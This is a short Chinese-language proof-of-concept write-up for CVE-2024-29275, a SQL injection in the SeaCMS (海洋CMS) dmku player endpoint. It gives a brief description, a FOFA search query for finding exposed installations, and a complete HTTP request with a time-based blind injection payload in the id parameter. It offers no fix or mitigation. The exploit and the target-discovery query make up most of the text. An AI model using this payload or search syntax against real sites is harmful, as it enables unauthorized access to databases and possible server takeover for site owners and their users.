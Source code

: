 

# CVE-2024-29275：海洋CMS /js/player/dmplayer/dmku/ SQL注入漏洞

### 1.漏洞描述

海洋CMS影视管理系统 /js/player/dmplayer/dmku/ 接囗存在 SQL注入漏洞，未经授权攻击者可通过该漏洞获取数据库敏感信息，进一步利用可获取服务器权限，导致网站处于极度不安全状态。

### 2.搜索语法

```plain
app="海洋CMS"
```

### 3.漏洞复现

```plain
GET /js/player/dmplayer/dmku/?ac=del&id=(select(0)from(select(sleep(5)))v)&type=list HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

![image-20240619222818274](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240619222818274.png)